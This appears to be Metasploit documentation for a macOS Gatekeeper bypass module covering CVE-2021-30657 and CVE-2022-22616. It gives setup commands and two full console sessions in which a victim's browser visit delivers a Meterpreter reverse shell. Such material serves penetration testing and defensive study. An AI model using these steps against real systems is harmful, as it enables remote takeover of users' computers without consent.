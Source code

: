 ## Vulnerable Application

This module exploits two CVEs that bypass Gatekeeper.

For CVE-2021-30657 this module serves an OSX app (as a zip) that contains
no Info.plist, which bypasses gatekeeper in macOS < 11.3.

If the user visits the site on Safari, the zip file is automatically extracted,
and clicking on the downloaded file will automatically launch the payload.
If the user visits the site in another browser, the user must click once to unzip
the app, and click again in order to execute the payload.

For CVE-2022-22616, this module serves a gzip-compressed zip file with its file header pointing
to the `Contents` directory which contains an OSX app. If the user downloads the file via Safari,
Safari will automatically decompress the file, removing its `com.apple.quarantine` attribute.
Because of this, the file will not require quarantining, bypassing Gatekeeper on
MacOS versions below 12.3.

## Verification Steps

1. Start `msfconsole`
2. `use exploit/osx/browser/osx_gatekeeper_bypass`
3. `set CVE <cve_num>`
4. `set LHOST <tab>`
5. `set SRVHOST <tab>`
6. `exploit`
7. Visit the URL on a vulnerable version of macOS

## Options

### APP_NAME

Name of the app to be served.

### CVE

The vulnerability to use in the exploit. The default value is the most recent cve (CVE-2022-22616).

## Scenarios

### macOS Catalina 10.15.6

```
msf > use exploit/osx/browser/osx_gatekeeper_bypass
[*] No payload configured, defaulting to osx/x64/meterpreter/reverse_tcp
msf exploit(osx/browser/osx_gatekeeper_bypass) > set srvhost 192.168.37.1
srvhost => 192.168.37.1
msf exploit(osx/browser/osx_gatekeeper_bypass) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf exploit(osx/browser/osx_gatekeeper_bypass) > options

Module options (exploit/osx/browser/osx_gatekeeper_bypass):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   APP_NAME  app              no        The application name (Default: app)
   SRVHOST   192.168.37.1     yes       The local host or network interface to listen on. This must be an a
                                        ddress on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT   8080             yes       The local port to listen on.
   SSL       false            no        Negotiate SSL for incoming connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                    no        The URI to use for this exploit (default is random)


Payload options (osx/x64/meterpreter/reverse_tcp):

   Name                   Current Setting  Required  Description
   ----                   ---------------  --------  -----------
   LHOST                  192.168.37.1     yes       The listen address (an interface may be specified)
   LPORT                  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   macOS x64 (Native Payload)


msf exploit(osx/browser/osx_gatekeeper_bypass) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.37.1:4444
msf exploit(osx/browser/osx_gatekeeper_bypass) > [*] Using URL: http://192.168.37.1:8080/q670M8fEMu
[*] Server started.
[*] 192.168.37.132   osx_gatekeeper_bypass - Request /q670M8fEMu from Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.1.2 Safari/605.1.15
[+] 192.168.37.132   osx_gatekeeper_bypass - macOS version 10.15.6 is vulnerable
[*] Transmitting first stager...(210 bytes)
[*] Transmitting second stager...(8192 bytes)
[*] Sending stage (810096 bytes) to 192.168.37.132
[*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.132:49380) at 2021-04-29 15:21:38 -0500

msf exploit(osx/browser/osx_gatekeeper_bypass) > sessions

Active sessions
===============

  Id  Name  Type                 Information                           Connection
  --  ----  ----                 -----------                           ----------
  1         meterpreter x64/osx  space @ spaces-Mac.local (uid=501, g  192.168.37.1:4444 -> 192.168.37.132:
                                 id=20, euid=501, egid=20) @ spaces-M  49380 (192.168.37.132)
                                 ac.local

msf exploit(osx/browser/osx_gatekeeper_bypass) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: space @ spaces-Mac.local (uid=501, gid=20, euid=501, egid=20)
meterpreter > sysinfo
Computer     : spaces-Mac.local
OS           : macOS Catalina (macOS 10.15.6)
Architecture : x86
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx
```

### macOS Big Sur 11.5.2

```
msf > use exploit/osx/browser/osx_gatekeeper_bypass
[*] No payload configured, defaulting to osx/x64/meterpreter/reverse_tcp
msf exploit(osx/browser/osx_gatekeeper_bypass) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf exploit(osx/browser/osx_gatekeeper_bypass) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.140.1:4444
msf exploit(osx/browser/osx_gatekeeper_bypass) > [*] Using URL: http://192.168.140.1:8080/pUyNR5yWEqCu
[*] Server started.
msf exploit(osx/browser/osx_gatekeeper_bypass) >
[*] 192.168.140.137  osx_gatekeeper_bypass - Request /pUyNR5yWEqCu from Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.1.2 Safari/605.1.15
[+] 192.168.140.137  osx_gatekeeper_bypass - Safari version 14.1.2 is vulnerable
[*] Transmitting first stager...(210 bytes)
[*] Transmitting second stager...(8192 bytes)
[*] Sending stage (810576 bytes) to 192.168.140.137
[*] Meterpreter session 2 opened (192.168.140.1:4444 -> 192.168.140.137:49355 ) at 2022-04-05 10:10:01 -0500

msf exploit(osx/browser/osx_gatekeeper_bypass) > sessions -i -1
[*] Starting interaction with 2...

meterpreter > getuid
Server username: space
meterpreter > sysinfo
Computer     : spaces-Mac.local
OS           :  (macOS 11.5.2)
Architecture : x64
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx
meterpreter >
```
